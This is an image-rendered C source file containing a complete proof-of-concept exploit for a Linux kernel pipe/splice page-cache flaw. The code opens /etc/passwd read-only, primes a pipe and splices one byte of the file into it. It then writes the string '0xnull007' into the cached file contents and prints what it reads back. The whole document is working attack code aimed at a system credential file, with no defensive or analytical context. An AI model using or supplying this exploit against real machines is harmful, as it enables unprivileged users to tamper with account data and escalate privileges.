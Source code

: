 ```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>

#define TARGET_FILE "/etc/passwd"

int main() {
    int fd;
    int pipefd[2];
    char buffer[4096];

    // 1. Create pipe and open target file
    if ((fd = open(TARGET_FILE, O_RDONLY)) == -1) {
        perror("open");
        return 1;
    }

    if (pipe(pipefd) == -1) {
        perror("pipe");
        return 1;
    }

    // 2. Shrink the pipe to 4096 bytes, fill the pipe and then drain it
    fcntl(pipefd[0], F_SETPIPE_SZ, sizeof(buffer));
    write(pipefd[1], buffer, sizeof(buffer));
    read(pipefd[0], buffer, sizeof(buffer));

    // 3. Trigger the vulnerability via splice
    if (splice(fd, NULL, pipefd[1], NULL, 1, 0) < 0) {
        perror("splice");
        close(fd);
        close(pipefd[0]);
        close(pipefd[1]);
        return 1;
    }

    // 4. Overwrite the target file
    write(pipefd[1], "0xnull007", 9);

    lseek(fd, 0, SEEK_SET);
    read(fd, buffer, 60);
    buffer[60] = '\0'; // Null-terminate the buffer

    printf("Data read from target file: %s\n", buffer);

    return 0;
}

```
